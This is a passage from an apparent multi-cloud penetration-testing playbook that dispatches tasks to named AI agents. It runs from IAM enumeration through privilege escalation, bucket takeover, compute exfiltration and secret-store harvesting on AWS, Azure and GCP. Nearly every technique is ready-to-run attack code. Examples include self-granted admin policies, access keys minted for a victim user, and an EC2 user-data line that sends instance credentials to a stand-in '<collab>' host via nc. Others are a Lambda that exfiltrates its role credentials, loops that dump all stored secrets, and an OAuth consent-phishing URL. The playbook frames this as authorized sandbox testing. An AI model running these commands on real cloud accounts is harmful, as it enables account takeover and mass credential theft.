  aws --profile lowpriv iam list-roles \
    --query "Roles[].{Name:RoleName,Trust:AssumeRolePolicyDocument}" > "$RUN/iam/aws-trusts.json"
  cloudfox aws --profile lowpriv role-trusts | tee "$RUN/iam/cf-role-trusts.txt"
  cloudfox aws --profile lowpriv permissions | tee "$RUN/iam/cf-perms.txt"

  # Whole-environment audit (read-only) for the IAM graph
  scout aws  --profile lowpriv --report-dir "$RUN/iam/scout-aws"
  prowler aws --profile lowpriv -M json-ocsf html -o "$RUN/iam/prowler-aws"

  # Azure — ROADtools offline graph + AzureHound for BloodHound
  roadrecon auth --device-code; roadrecon gather; roadrecon dump   # to $RUN/iam/road
  azurehound -i "$TENANT" list --json -o "$RUN/iam/azurehound.json"

  # GCP — who can impersonate what
  gcloud asset search-all-iam-policies --scope=projects/$PROJECT --format=json > "$RUN/iam/gcp-iam-search.json"
  ```
- **Indicators:** Roles whose trust policy names your account/principal or `Principal:"*"`; SAs you hold `iam.serviceAccountTokenCreator`/`actAs` on; Key Vault/S3/SQS/SNS resource policies referencing you; AzureHound/BloodHound paths to `Global Administrator`/`Owner`.
- **Validation:** Confirm a trust edge is usable with a single non-mutating `sts assume-role`/`gcloud ... print-access-token --impersonate-service-account` dry call in the sandbox.
- **Evasion / edge cases:** ScoutSuite/Prowler are loud and rate-limited; run during the recon window and cache. ROADtools device-code login requires an interactive token — use the foothold token where possible.
- **Severity:** Informational (this is the privesc map).
- **Dispatch:** -> CloudExploitationAgent; hand the graph to AWSAgent/AzureAgent/GCPAgent

**Phase artifacts:** `$RUN/iam/{aws-authz.json,enumerate-iam.txt,cf-*.txt,aws-trusts.json,scout-aws/,prowler-aws/,azure-rbac.json,azurehound.json,road/,gcp-policy.json,gcp-iam-search.json}`.

**Gate-out:** IAM graph for the current identity is complete (permissions + reachable nodes + high-value sinks). At least one candidate privesc/exfil hypothesis exists. Proceed to P4. Parallelizable: 3.1 and 3.2 across providers run concurrently.

---

## Phase 4: IAM PRIVILEGE ESCALATION

**Objective:** Traverse the IAM graph from the foothold identity to higher privilege, proving each hop in a sandbox. Profile-before-attack: every vector below is gated on an enumerated permission from P3.

**Expert rationale:** Cloud privesc is a known, finite set of edges (Rhino Security's AWS catalog; Azure Entra-vs-RBAC seams; GCP impersonation/actAs). Test the specific edge your permissions enable; do not spray.

**Gate-in:** P3 identified at least one of the permission preconditions below for the current identity.

### Technique 4.1 — AWS: CreatePolicyVersion / Put*Policy (rewrite policy)

- **Objective / hypothesis:** `iam:CreatePolicyVersion` (or `iam:PutUserPolicy`/`PutRolePolicy`/`PutGroupPolicy`) on a policy attached to you lets you grant yourself admin.
- **Procedure (sandbox, reversible):**
  ```bash
  cat > "$RUN/iam/admin.json" <<'EOF'
  {"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}
  EOF
  aws --profile lowpriv iam create-policy-version --policy-arn "$ATTACHED_ARN" \
    --policy-document "file://$RUN/iam/admin.json" --set-as-default
  # prove, then revert
  aws --profile lowpriv s3 ls   # previously denied
  aws --profile lowpriv iam set-default-policy-version --policy-arn "$ATTACHED_ARN" --version-id "$ORIG"  # cleanup
  ```
- **Indicators:** Previously-denied admin action now succeeds with the same identity.
- **Validation:** Diff effective permissions before/after with `simulate-principal-policy`; confirm via `baseline` profile that the policy was not already admin.
- **Evasion / edge cases:** Policies allow max 5 versions — delete a non-default version first if at the limit (log it). Permission boundaries cap effective access even after rewrite.
- **Severity:** Critical, full account compromise. CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H ~9.1.
- **Dispatch:** -> AWSAgent

### Technique 4.2 — AWS: AttachUserPolicy / AttachRolePolicy / AddUserToGroup

- **Objective / hypothesis:** `iam:AttachUserPolicy` (or attach-role / add-to-group) lets you bolt `AdministratorAccess` onto a principal you control.
- **Procedure:**
  ```bash
  aws --profile lowpriv iam attach-user-policy --user-name "$ME" \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
  aws --profile lowpriv iam list-attached-user-policies --user-name "$ME"   # confirm
  # cleanup
  aws --profile lowpriv iam detach-user-policy --user-name "$ME" --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
  ```
- **Indicators:** Managed admin policy now in your attached list; admin actions succeed.
- **Validation:** `simulate-principal-policy` before/after; baseline confirms prior non-admin state.
- **Evasion / edge cases:** `AddUserToGroup` reaches admin if any group is over-privileged; `AttachGroupPolicy` escalates everyone in the group.
- **Severity:** Critical ~9.1.
- **Dispatch:** -> AWSAgent

### Technique 4.3 — AWS: CreateAccessKey / UpdateLoginProfile / CreateLoginProfile

- **Objective / hypothesis:** `iam:CreateAccessKey` on a higher-priv user, or `iam:CreateLoginProfile`/`UpdateLoginProfile`, hands you that user's credentials.
- **Procedure:**
  ```bash
  aws --profile lowpriv iam create-access-key --user-name "$PRIV_USER"   # mints keys for victim
  # or set a console password you control
  aws --profile lowpriv iam update-login-profile --user-name "$PRIV_USER" --password "$NEWPW" --no-password-reset-required
  ```
- **Indicators:** New AKIA/secret returned for a user that is not you; `sts get-caller-identity` with the new key shows the victim.
- **Validation:** Use the minted key in an isolated profile; confirm it is the higher-priv principal. Revoke immediately after proof (`delete-access-key`) and log.
- **Evasion / edge cases:** Users may already have 2 keys (limit) — `CreateAccessKey` then fails; pivot to login-profile. CloudTrail logs key creation (detection).
- **Severity:** Critical ~9.0; lateral identity takeover.
- **Dispatch:** -> AWSAgent

### Technique 4.4 — AWS: AssumeRole / role chaining

- **Objective / hypothesis:** A role's trust policy lets your principal assume it; chaining several lands on admin.
- **Procedure:**
  ```bash
  aws --profile lowpriv sts assume-role --role-arn "$TARGET_ROLE" --role-session-name proof \
    > "$RUN/iam/assumed.json"
  # chain: configure the assumed creds, assume the next role
  ```
- **Indicators:** `AssumedRoleUser` ARN returned; the new session can do what your base identity could not.
- **Validation:** `get-caller-identity` under assumed creds shows the new role and in-scope account; baseline confirms the role is more privileged.
- **Evasion / edge cases:** Trust conditions (`sts:ExternalId`, `aws:SourceArn`, MFA) may gate assumption — read the trust doc from P3. Role-chaining caps session to 1h.
- **Severity:** High-to-Critical depending on the landed role.
- **Dispatch:** -> AWSAgent

### Technique 4.5 — AWS: PassRole + Lambda (deploy code as a privileged role)

- **Objective / hypothesis:** `iam:PassRole` + `lambda:CreateFunction`+`lambda:InvokeFunction` runs attacker code under an admin role.
- **Procedure (sandbox):**
  ```bash
  # function that exfils its own role creds to Collaborator (no destructive action)
  zip -j "$RUN/iam/f.zip" exfil_handler.py
  aws --profile lowpriv lambda create-function --function-name proof-$RANDOM \
    --runtime python3.12 --role "$ADMIN_ROLE_ARN" --handler exfil_handler.handler \
    --zip-file "fileb://$RUN/iam/f.zip"
  aws --profile lowpriv lambda invoke --function-name proof-... "$RUN/iam/out.json"
  aws --profile lowpriv lambda delete-function --function-name proof-...   # cleanup (the one allowed delete: our own artifact)
  ```
- **Indicators:** Function executes and returns the admin role's STS creds (captured via output or Collaborator).
- **Validation:** The returned creds authenticate as the admin role under an isolated profile; confirm role is admin.
- **Evasion / edge cases:** `PassRole` is often scoped by `iam:PassedToService`/resource ARN — only roles you can pass to `lambda.amazonaws.com` qualify. Use Collaborator egress when the function has no return path.
- **Severity:** Critical ~9.1.
- **Dispatch:** -> AWSAgent (function code) / RCEAgent

### Technique 4.6 — AWS: PassRole + EC2 / Glue / SageMaker / CloudFormation / DataPipeline

- **Objective / hypothesis:** Any service that runs code/automation under a passed role is a privesc sink: `ec2:RunInstances`+PassRole (instance profile), `glue:CreateDevEndpoint`/`UpdateDevEndpoint`, `sagemaker:CreateNotebookInstance`+`CreatePresignedNotebookInstanceUrl`, `cloudformation:CreateStack`+PassRole, `datapipeline:CreatePipeline`+`PutPipelineDefinition`.
- **Procedure (pick the one your perms allow; EC2 example, sandbox):**
  ```bash
  aws --profile lowpriv ec2 run-instances --image-id "$AMI" --instance-type t3.micro \
    --iam-instance-profile Arn="$ADMIN_PROFILE_ARN" \
    --user-data "$(printf '#!/bin/bash\ncurl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | nc <collab> 80')"
  # Glue
  aws --profile lowpriv glue create-dev-endpoint --endpoint-name p --role-arn "$ADMIN_ROLE_ARN" --public-key "$PUB"
  # SageMaker
  aws --profile lowpriv sagemaker create-notebook-instance --notebook-instance-name p --instance-type ml.t3.medium --role-arn "$ADMIN_ROLE_ARN"
  aws --profile lowpriv sagemaker create-presigned-notebook-instance-url --notebook-instance-name p
  # CloudFormation (template assumes the passed role)
  aws --profile lowpriv cloudformation create-stack --stack-name p --template-body "file://$RUN/iam/cfn.json" --role-arn "$ADMIN_ROLE_ARN" --capabilities CAPABILITY_NAMED_IAM
  ```
- **Indicators:** The created compute/automation runs under the admin role and surfaces its creds (via user-data egress, dev-endpoint shell, presigned notebook, or stack-created IAM user).
- **Validation:** Retrieve and authenticate the role/creds in isolation; confirm admin; tear down created resources (log to `$RUN/cleanup.log`).
- **Evasion / edge cases:** Each service has its own PassRole resource scoping — match `iam:PassedToService`. SageMaker presigned URL grants a Jupyter shell with the role's creds via IMDS inside the notebook. CloudFormation can mint an admin IAM user directly if `CAPABILITY_NAMED_IAM` is permitted.
- **Severity:** Critical ~9.1.
- **Dispatch:** -> AWSAgent / RCEAgent

### Technique 4.7 — Azure: Entra (directory) roles vs RBAC, and managed identities

- **Objective / hypothesis:** Azure has two privilege planes — Entra ID directory roles (control identities/apps) and Azure RBAC (control resources). Seams between them, plus managed identities, escalate.
- **Procedure:**
  ```bash
  # RBAC: do I hold Owner / User Access Administrator anywhere?
  az role assignment list --all -o json | jq '[.[]|select(.roleDefinitionName|test("Owner|User Access Administrator"))]'
  # Self-grant via UAA: assign myself a higher role
  az role assignment create --assignee "$ME" --role Owner --scope "/subscriptions/$SUB"
  # Managed identity: enumerate identities I can act through, request their tokens
  az identity list -o json > "$RUN/iam/mi.json"
  # Entra: app/role abuse — add myself to a privileged group I own, or add app credentials
  az ad app credential reset --id "$APP_OBJECT_ID" --append   # mint a client secret for a privileged app
  ```
- **Indicators:** `User Access Administrator`/`Owner` at any scope (RBAC self-grant); ownership of a group nested into a privileged role; ability to add credentials to a service principal with `Application.ReadWrite.OwnedBy`.
- **Validation:** New assignment appears and grants previously-denied resource access; the minted SP secret authenticates as a higher-priv app. Confirm against baseline.
- **Evasion / edge cases:** RBAC `Owner` does NOT grant Entra directory powers and vice-versa — escalation often hops planes (resource Owner -> read a VM's managed identity that holds Graph `RoleManagement.ReadWrite.Directory` -> Global Admin). AzureHound paths from P3 show these hops.
- **Severity:** Critical for tenant/subscription takeover ~9.1; High for single-scope Owner.
- **Dispatch:** -> AzureAgent

### Technique 4.8 — Azure: consent / OAuth app phishing

- **Objective / hypothesis:** Illicit consent grants (or admin-consent on an over-scoped app) yield Graph tokens with high-impact scopes without a password.
- **Procedure:** Stand up an app requesting high-value delegated scopes (`Mail.Read`, `Files.ReadWrite.All`, `Directory.AccessAsUser.All`) and capture the consent flow through the auth harness:
  ```bash
  bun "$TOOLS/auth-manager.ts"   # drive the AAD consent flow in a real browser session, proxied
  # Demonstrate the consent URL (do not send to real users without explicit authorization)
  echo "https://login.microsoftonline.com/$TENANT/oauth2/v2.0/authorize?client_id=$APPID&response_type=code&scope=https://graph.microsoft.com/Mail.Read%20offline_access&redirect_uri=$REDIRECT"
  ```
- **Indicators:** Consent succeeds and returns a code; redeemed for a Graph token with the requested scopes; tenant lacks admin-consent restriction / user-consent is unrestricted.
- **Validation:** Token reads the granted resource (e.g., `GET https://graph.microsoft.com/v1.0/me/messages`); confirm the tenant policy actually permits user consent (otherwise it is theoretical).
- **Evasion / edge cases:** This is a social vector — only demonstrate the mechanism (registration + over-scoped consent request + token redemption) against authorized test identities; never phish real users. Note `Verified Publisher` and consent-policy state.
- **Severity:** High-to-Critical (tenant-wide data access). Business impact = mailbox/file exfil tenant-wide.
- **Dispatch:** -> AzureAgent / AuthAgent

### Technique 4.9 — GCP: service-account impersonation / actAs

- **Objective / hypothesis:** `roles/iam.serviceAccountTokenCreator` or `serviceAccountUser` (`iam.serviceAccounts.actAs`) on a higher-priv SA lets you become it.
- **Procedure:**
  ```bash
  # Mint a token as the target SA (direct impersonation)
  gcloud --impersonate-service-account="$TARGET_SA" projects get-iam-policy "$PROJECT"
  gcloud auth print-access-token --impersonate-service-account="$TARGET_SA"
  # actAs sink: deploy a Cloud Function/Run/Compute that runs as the privileged SA
  gcloud functions deploy p --runtime python312 --trigger-http --service-account "$PRIV_SA" \
    --entry-point handler --source "$RUN/iam/fn" --allow-unauthenticated
  ```
- **Indicators:** Token issued for the target SA; impersonated calls succeed where your base SA was denied; function deploys bound to a privileged SA.
- **Validation:** `gcloud auth print-access-token --impersonate-service-account=...` then `curl tokeninfo` shows the target SA; impersonated `getIamPolicy` returns broader rights. Baseline confirms escalation.
- **Evasion / edge cases:** Chained impersonation via `--impersonate-service-account=a@,b@` (delegation chain). `actAs` is required to deploy-as; `tokenCreator` is required to mint tokens — different sinks. Org policy `iam.disableServiceAccountKeyCreation` blocks key-based variants.
- **Severity:** Critical ~9.1 if target SA is `roles/owner`/`editor`.
- **Dispatch:** -> GCPAgent

### Technique 4.10 — GCP: IAM-binding self-grant

- **Objective / hypothesis:** `resourcemanager.projects.setIamPolicy` (or `iam.roles.update`, `iam.serviceAccounts.setIamPolicy`) lets you grant yourself a higher role or widen a custom role.
- **Procedure:**
  ```bash
  gcloud projects add-iam-policy-binding "$PROJECT" --member "user:$ME" --role roles/owner
  # or widen a custom role you can update
  gcloud iam roles update "$CUSTOM_ROLE" --project "$PROJECT" --add-permissions "resourcemanager.projects.setIamPolicy,*"
  # cleanup
  gcloud projects remove-iam-policy-binding "$PROJECT" --member "user:$ME" --role roles/owner
  ```
- **Indicators:** Binding succeeds; previously-denied owner action now works.
- **Validation:** `getIamPolicy` shows the new binding; an owner-only call succeeds; baseline confirms prior state. Revert and log.
- **Evasion / edge cases:** Org policies / `iam.allowedPolicyMemberDomains` (domain restriction) may block adding external members; deny-policies (IAM Deny) override allows.
- **Severity:** Critical ~9.1.
- **Dispatch:** -> GCPAgent

**Phase artifacts:** per-vector proof files in `$RUN/iam/` (before/after `simulate`/`getIamPolicy` diffs, assumed-creds JSON redacted, `cleanup.log`), Burp HAR of the privesc calls.

**Gate-out:** At least one privesc path proven (or all candidate edges tested and shown blocked). Highest privilege reached is recorded with reproduction steps. Proceed to data-centric phases (P5-P8). 4.1-4.6 (AWS), 4.7-4.8 (Azure), 4.9-4.10 (GCP) parallelize across provider agents.

---

## Phase 5: OBJECT STORAGE MISCONFIG & TAKEOVER

**Objective:** Find and prove read/write/list exposure and takeover across S3, GCS, and Azure Blob, plus signed-URL abuse.

**Expert rationale:** Buckets are the most common cloud data-leak primitive; dangling bucket references are a one-shot account-data-injection takeover. Test public access AND authenticated-but-overbroad access (e.g., `AuthenticatedUsers` grant = any AWS account).

**Gate-in:** P1 candidate list and/or an authenticated session from P2/P4. Scope guard active.

### Technique 5.1 — S3 ACL / policy exposure

- **Objective / hypothesis:** Bucket policy/ACL grants public or all-authenticated read/write/list.
- **Procedure:**
  ```bash
  for b in $(cat "$RUN/recon/bucket-candidates.txt"); do
    aws s3api get-bucket-acl --bucket "$b" --no-sign-request 2>>"$RUN/storage/err.txt"
    aws s3api get-bucket-policy-status --bucket "$b" 2>/dev/null
    aws s3api get-public-access-block --bucket "$b" 2>/dev/null
    aws s3 ls "s3://$b" --no-sign-request 2>/dev/null | head
  done | tee "$RUN/storage/s3-acl.txt"
  # write test (sandbox, then remove our own marker)
  echo proof > /tmp/p.txt && aws s3 cp /tmp/p.txt "s3://$b/__hunt_marker.txt" --no-sign-request
  ```
- **Indicators:** `AllUsers`/`AuthenticatedUsers` grantee in ACL; `PolicyStatus.IsPublic=true`; successful unauthenticated `ls`/`cp`.
- **Validation:** Confirm the bytes (download a benign object) and confirm via `baseline` that exposure is real, not your own session. Remove any written marker.
- **Evasion / edge cases:** `AuthenticatedUsers` = ANY AWS principal (test with a throwaway authorized account, not anonymous). Account-level `BlockPublicAccess` can override permissive bucket policy — check it.
- **Severity:** Critical if PII/secrets readable (~9.1 C:H) or public-writable (integrity, supply-chain). Medium for public-list-only of non-sensitive data.
- **Dispatch:** -> AWSAgent

### Technique 5.2 — GCS IAM / ACL exposure

- **Objective / hypothesis:** GCS bucket grants `allUsers`/`allAuthenticatedUsers` read/write/admin.
- **Procedure:**
  ```bash
  gsutil iam get "gs://$BUCKET"   | tee "$RUN/storage/gcs-iam.txt"
  gsutil defacl get "gs://$BUCKET"
  gsutil ls -r "gs://$BUCKET" 2>/dev/null | head
  ```
- **Indicators:** `allUsers`/`allAuthenticatedUsers` with `roles/storage.objectViewer`/`objectAdmin`/`legacyBucketOwner`.
- **Validation:** Anonymous `https://storage.googleapis.com/$BUCKET/<obj>` returns the object; baseline confirms.
- **Evasion / edge cases:** Uniform bucket-level access vs fine-grained ACLs behave differently; `objectAdmin` to `allUsers` = public write.
- **Severity:** As 5.1.
- **Dispatch:** -> GCPAgent

### Technique 5.3 — Azure Blob public access & SAS abuse

- **Objective / hypothesis:** Container `publicAccess=blob|container`, or leaked SAS/account keys grant data access.
- **Procedure:**
  ```bash
  az storage container list --account-name "$ACCT" --auth-mode login -o json | jq '.[]|{name,public:.properties.publicAccess}'
  curl -sk -A "$UA" "https://$ACCT.blob.core.windows.net/$CONTAINER?restype=container&comp=list"
  # SAS abuse — if a SAS URL leaked, enumerate its rights
  az storage blob list --container-name "$CONTAINER" --sas-token "$SAS" --account-name "$ACCT" -o table
  ```
- **Indicators:** `publicAccess` = `blob`/`container`; unauthenticated list returns blobs; leaked SAS with `sp=rwdl` (read/write/delete/list).
- **Validation:** Fetch a benign blob unauthenticated or via SAS; confirm scope; baseline check.
- **Evasion / edge cases:** SAS may be service/account/user-delegation scoped with IP/time limits — read `se`/`sip`/`sp` in the token. `$root`/`$logs` containers are often forgotten.
- **Severity:** As 5.1; account-key leak (full Storage control) is Critical.
- **Dispatch:** -> AzureAgent

### Technique 5.4 — Bucket / container takeover (dangling reference)

- **Objective / hypothesis:** A CNAME or app config points at a deleted bucket/container; re-creating it lets you serve attacker content under the org's name (stored-XSS, supply-chain, phishing).
- **Procedure:**
  ```bash
  # From recon DNS: find CNAMEs to storage that 404 NoSuchBucket
  grep -i 's3\|storage.googleapis\|blob.core.windows' "$RUN/recon/dns.txt"
  curl -sk -A "$UA" "https://$NAME.s3.amazonaws.com/" | grep -i NoSuchBucket
  # If unclaimed & in scope: claim it in the AUTHORIZED account only, host a benign proof file
  aws --profile baseline s3 mb "s3://$NAME" --region "$REGION"
  echo "takeover-proof $(date)" | aws --profile baseline s3 cp - "s3://$NAME/proof.txt"
  ```
- **Indicators:** `NoSuchBucket`/`The specified bucket does not exist` on a name still referenced by an in-scope CNAME/app; the name is registerable.
- **Validation:** After claiming (in the authorized account), the org's CNAME serves your proof file. Document and then release the name.
- **Evasion / edge cases:** S3 global namespace vs region; some names are reserved post-deletion. Only claim names within authorized accounts/regions; never squat third-party names.
- **Severity:** High-to-Critical (content injection under trusted origin -> stored XSS / malware). ~8.0+ depending on origin trust.
- **Dispatch:** -> AWSAgent / GCPAgent / AzureAgent

### Technique 5.5 — Signed / pre-signed URL abuse

- **Objective / hypothesis:** Over-long-lived or over-scoped pre-signed/SAS/signed URLs grant unintended object access; URL generation endpoints may allow path/key injection (IDOR-style).
- **Procedure:**
  ```bash
  # Inspect a captured pre-signed URL's expiry and signed headers (from Burp history)
  bun "$TOOLS/burp-bridge.ts" --history --filter "method:GET" | jq '.[]|select(.url|test("X-Amz-Signature|sig="))|.url'
  # Test key/path substitution in an app endpoint that returns a pre-signed URL
  curl -sk -A "$UA" "https://app.acme.com/api/download?key=../other-user/secret.pdf"
  ```
- **Indicators:** `X-Amz-Expires` of days/years; signed URL still valid long after issuance; changing `key`/path in the request yields another tenant's object's URL.
- **Validation:** Replay the URL after a delay (still 200); fetch a cross-tenant object via key substitution and confirm it is not yours (baseline/second identity).
- **Evasion / edge cases:** Signed URLs bypass bucket-level Block-Public-Access — a "private" bucket can still leak via weak signing. URL-signing IDOR is an app bug with cloud-data impact (route to IDORAgent).
- **Severity:** High (cross-tenant data read). ~7.5-8.6.
- **Dispatch:** -> provider agent; IDOR-style generation flaw -> IDORAgent

**Phase artifacts:** `$RUN/storage/{s3-acl.txt,gcs-iam.txt,blob.txt,takeover.txt,signed-url.txt}`, downloaded benign proof objects in `$RUN/loot/`, `cleanup.log` for any marker written/name claimed.

**Gate-out:** Every candidate bucket/container triaged (public/auth-overbroad/takeover/clean); signed-URL flows tested. Confirmed data exposure handed to ValidatorAgent. Techniques 5.1-5.5 parallelize per provider.

---

## Phase 6: COMPUTE & SERVERLESS EXFIL

**Objective:** Extract secrets and data from compute and serverless: instance metadata/user-data, disk/snapshot exfil, and Lambda/Functions/Cloud Run code, env, and execution.

**Expert rationale:** Compute carries the keys to everything else — user-data scripts embed secrets, snapshots are unencrypted copies of production disks, and serverless env vars are a secret store people forget is readable. Serverless also offers code execution under privileged roles (ties back to P4).

**Gate-in:** Authenticated session with compute/lambda read (from P3/P4).

### Technique 6.1 — User-data / custom-data secret exfil

- **Objective / hypothesis:** Boot scripts contain hard-coded creds, tokens, or pull-secrets.
- **Procedure:**
  ```bash
  # AWS
  for i in $(aws --profile lowpriv ec2 describe-instances --query 'Reservations[].Instances[].InstanceId' --output text); do
    aws --profile lowpriv ec2 describe-instance-attribute --instance-id "$i" --attribute userData \
      --query UserData.Value --output text | base64 -d
  done | tee "$RUN/compute/userdata.txt"
  # Azure custom-data (via run-command / instance view) and GCP startup-script metadata
  gcloud compute instances describe "$VM" --zone "$ZONE" --format="value(metadata.items[].value)" | tee "$RUN/compute/gcp-startup.txt"
  ```
- **Indicators:** Passwords, API keys, registry pull-secrets, internal endpoints in the decoded script.
- **Validation:** Test extracted creds (read-only first) against the service they unlock; store in vault.
- **Evasion / edge cases:** User-data is base64; multi-part cloud-init may gzip. Some orgs move secrets to SSM/Key Vault references inside user-data — follow the reference (P7).
- **Severity:** High-to-Critical (depends on the secret).
- **Dispatch:** -> provider agent -> SecretsExposureAgent

### Technique 6.2 — Snapshot / disk image exfil

- **Objective / hypothesis:** EBS/managed-disk snapshots (yours, shared, or public) are full copies of production disks; mount one to read secrets/data without touching the live host.
- **Procedure (sandbox; copy into authorized account only):**
  ```bash
  # Find shared/public snapshots and own snapshots
  aws --profile lowpriv ec2 describe-snapshots --owner-ids self --query 'Snapshots[].SnapshotId' --output text
  aws --profile lowpriv ec2 describe-snapshots --restorable-by-user-ids all --max-items 50
  # Copy a shared snapshot into the authorized account, create a volume, attach to a sandbox instance, mount read-only
  aws --profile baseline ec2 copy-snapshot --source-region "$R" --source-snapshot-id "$SNAP" --description hunt-proof
  ```
- **Indicators:** Snapshots shared with `all` or with your account; snapshot description/tags referencing prod; readable filesystem after mount with `/etc/shadow`, app config, `.aws/credentials`.
- **Validation:** Mount read-only in the sandbox, confirm sensitive files exist (hash, do not exfil bulk PII). Tear down volume/snapshot copy; log cleanup.
- **Evasion / edge cases:** Encrypted snapshots need the KMS key shared too — check `aws ec2 describe-snapshot-attribute`. Never modify/delete the source snapshot. Azure: `Disks` + `CreateSnapshot`/SAS export; GCP: `gcloud compute disks snapshot` + image export.
- **Severity:** Critical (full disk data, often incl. creds). ~9.0.
- **Dispatch:** -> provider agent -> CloudExploitationAgent

### Technique 6.3 — Serverless code, env, and execution (Lambda / Functions / Cloud Run)

- **Objective / hypothesis:** Function env vars store secrets; source may contain injection/RCE; the execution role is a privesc sink (P4.5).
- **Procedure:**
  ```bash
  # AWS Lambda — config (env) + code
  for f in $(aws --profile lowpriv lambda list-functions --query 'Functions[].FunctionName' --output text); do
    aws --profile lowpriv lambda get-function-configuration --function-name "$f" --query 'Environment.Variables'
    loc=$(aws --profile lowpriv lambda get-function --function-name "$f" --query 'Code.Location' --output text)
    curl -sk -A "$UA" "$loc" -o "$RUN/compute/$f.zip"
  done | tee "$RUN/compute/lambda-env.txt"
  unzip -o "$RUN/compute/$f.zip" -d "$RUN/compute/$f" && trufflehog filesystem "$RUN/compute/$f" --json
  # Azure Functions / GCP Functions & Cloud Run
  az functionapp config appsettings list --name "$APP" --resource-group "$RG" -o json
  gcloud functions describe "$FN" --format=json | jq '.serviceConfig.environmentVariables'
  gcloud run services describe "$SVC" --region "$REGION" --format=json | jq '.spec.template.spec.containers[].env'
  ```
- **Indicators:** Secrets in env vars; unsafe `eval`/`os.system`/deserialization on event input in source; publicly invokable function URL / `--allow-unauthenticated` Cloud Run.
- **Validation:** Confirm a secret unlocks a service; for injection, prove with a benign marker (e.g., DNS callback to Collaborator), not destructive payloads. Confirm public invokability anonymously.
- **Evasion / edge cases:** Lambda layers carry extra deps (scan separately). Event-source injection (API Gateway/SQS/SNS/EventBridge) reaches the handler from outside — test each trigger. Route confirmed code-exec to RCEAgent.
- **Severity:** High-to-Critical: secret leak ~7.5+, RCE-as-privileged-role ~9.1.
- **Dispatch:** -> provider agent; RCE -> RCEAgent; privileged role -> P4.5/AWSAgent

**Phase artifacts:** `$RUN/compute/{userdata.txt,gcp-startup.txt,lambda-env.txt,<fn>/,snapshots.txt}`, vaulted secrets, `cleanup.log`.

**Gate-out:** Compute/serverless secret and exfil surface fully enumerated; any code-exec/snapshot-data exposure proven. Hand secrets to P7, code-exec to ValidatorAgent. 6.1/6.2/6.3 parallelize.

---

## Phase 7: SECRETS MANAGEMENT

**Objective:** Enumerate and read managed secret stores and parameter stores reachable by the current identity: AWS Secrets Manager + SSM Parameter Store, Azure Key Vault, GCP Secret Manager.

**Expert rationale:** Once you hold any session, the secret stores are the fastest route to lateral/vertical movement — DB creds, third-party API keys, signing keys. Read access is frequently over-granted to compute roles.

**Gate-in:** Authenticated session with secret-read (from P3/P4/P6).

### Technique 7.1 — AWS Secrets Manager & SSM Parameter Store

- **Objective / hypothesis:** The role can list and read secrets/parameters (incl. `SecureString`).
- **Procedure:**
  ```bash
  aws --profile lowpriv secretsmanager list-secrets --query 'SecretList[].Name' --output text | tee "$RUN/secrets/sm-names.txt"
  while read s; do aws --profile lowpriv secretsmanager get-secret-value --secret-id "$s" --query SecretString --output text; done < "$RUN/secrets/sm-names.txt" > "$RUN/secrets/sm-values.txt"
  aws --profile lowpriv ssm describe-parameters --query 'Parameters[].Name' --output text
  aws --profile lowpriv ssm get-parameters-by-path --path / --recursive --with-decryption > "$RUN/secrets/ssm.json"
  cloudfox aws --profile lowpriv secrets | tee "$RUN/secrets/cf-secrets.txt"
  ```
- **Indicators:** Returned `SecretString`/decrypted `SecureString` values; DB/connection strings; third-party tokens.
- **Validation:** Use a read-only call against the unlocked service to confirm the secret is live; store in vault.
- **Evasion / edge cases:** `--with-decryption` needs `kms:Decrypt` on the param's key — a `list` success with `get` denial still leaks names/structure. Resource policies on secrets may allow cross-account read.
- **Severity:** Critical (mass credential disclosure). ~9.0.
- **Dispatch:** -> SecretsExposureAgent

### Technique 7.2 — Azure Key Vault

- **Objective / hypothesis:** A managed identity or principal has `get`/`list` on Key Vault secrets/keys/certs (data-plane), often broader than intended.
- **Procedure:**
  ```bash
  az keyvault list -o json | jq -r '.[].name' | tee "$RUN/secrets/kv-names.txt"
  while read v; do
    az keyvault secret list --vault-name "$v" -o tsv --query '[].name' 2>/dev/null \
      | while read n; do az keyvault secret show --vault-name "$v" --name "$n" --query value -o tsv; done
  done < "$RUN/secrets/kv-names.txt" > "$RUN/secrets/kv-values.txt"
  # Or with a managed-identity token from P2.3 against the vault data-plane
  curl -sk -A "$UA" -H "Authorization: Bearer $KV_TOKEN" "https://$VAULT.vault.azure.net/secrets?api-version=7.4"
  ```
- **Indicators:** Secret values returned; `list`+`get` data-plane permission; vault firewall allows your network.
- **Validation:** Live-test an unlocked credential read-only; confirm via baseline that access was not yours by design.
- **Evasion / edge cases:** RBAC vs legacy Access Policies are two permission models — check both. Vault firewall/private-endpoint may block from outside; a managed-identity token from inside (P2.3) bypasses network ACLs.
- **Severity:** Critical ~9.0.
- **Dispatch:** -> SecretsExposureAgent

### Technique 7.3 — GCP Secret Manager

- **Objective / hypothesis:** The SA has `secretmanager.versions.access` on project secrets.
- **Procedure:**
  ```bash
  gcloud secrets list --format='value(name)' | tee "$RUN/secrets/gsm-names.txt"
  while read s; do gcloud secrets versions access latest --secret="$s"; done < "$RUN/secrets/gsm-names.txt" > "$RUN/secrets/gsm-values.txt"
  ```
- **Indicators:** Returned secret payloads; broad `secretAccessor` binding.
- **Validation:** Live-test read-only; vault-store.
- **Evasion / edge cases:** Per-secret IAM may differ from project IAM — enumerate `gcloud secrets get-iam-policy`. Some secrets are referenced from Cloud Run/Functions env (cross-link P6.3).
- **Severity:** Critical ~9.0.
- **Dispatch:** -> SecretsExposureAgent

**Phase artifacts:** `$RUN/secrets/{sm-*.txt,ssm.json,kv-*.txt,gsm-*.txt,cf-secrets.txt}` (values vaulted/redacted in the report).

**Gate-out:** All reachable secret stores enumerated and read where permitted; harvested creds fed back into P4 (new identities) and P8 (DB access). 7.1/7.2/7.3 parallelize.

---

## Phase 8: NETWORK & DATA-SERVICE EXPOSURE

**Objective:** Identify publicly reachable data services and overly permissive network controls: public RDS/Cloud SQL/Cosmos/Redis, public snapshots, and `0.0.0.0/0` security-group/NSG/firewall rules.

**Expert rationale:** Network misconfig turns an internal data store into an internet-facing one; combined with leaked/weak creds (P7) it is direct data access without any IAM privesc.

**Gate-in:** Authenticated session with describe rights, or unauthenticated from P1 (public endpoints).

### Technique 8.1 — Public databases & snapshots

- **Objective / hypothesis:** A managed DB is `PubliclyAccessible` or a snapshot is shared/public.
- **Procedure:**
  ```bash
  aws --profile lowpriv rds describe-db-instances \
